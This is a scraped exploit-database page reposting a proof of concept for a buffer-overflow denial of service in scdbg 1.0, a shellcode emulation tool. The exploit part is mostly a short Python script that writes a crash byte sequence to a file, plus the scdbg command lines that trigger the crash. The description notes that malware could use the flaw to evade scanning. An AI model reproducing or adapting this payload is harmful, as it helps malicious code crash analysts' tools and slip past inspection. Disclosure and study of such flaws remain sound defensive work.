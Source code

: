 ```yaml
---
title: Scdbg 1.0 Denial Of Service exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:171503&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-03-28
fetch_date: 2025-10-04T10:50:21.822369
---
```


# Scdbg 1.0 Denial Of Service exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Scdbg 1.0 Denial Of Service

2023-03-27 | CVSS 6.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:171503
# Exploit Title: Scdbg 1.0 - Buffer overflow DoS
# Discovery by: Rafael Pedrero
# Discovery Date: 2021-06-13
# Vendor Homepage: http://sandsprite.com/blogs/index.php?uid=7&pid=152
# Software Link : https://github.com/dzzie/VS_LIBEMU
# Tested Version: 1.0 - Compile date: Jun 3 2021 20:57:45
# Tested on: Windows 7, 10

CVSS v3: 7.5
CVSS vector: 3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
CWE: CWE-400

Vulnerability description: scdbg.exe (all versions) is affected by a Denial
of Service vulnerability that occurs when you use the /foff parameter or
not with a specific shellcode causing it to shutdown. Any malware could use
this option to evade the scan.

Proof of concept:

Save this script like scdbg_crash.py and execute it: scdbg.exe -foff 1 -f
scdbg_crash.bin / scdbg.exe -f scdbg_crash.bin

#!/usr/bin/env python

crash = "\x90\xF6\x84\x01\x90\x90\x90\x90"
f = open ("scdbg_crash.bin", "w")
f.write(crash)
f.close()

You can use gui_launcher.exe and check "Start offset 0x": 1 or directly
without check

[image: image.png]
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)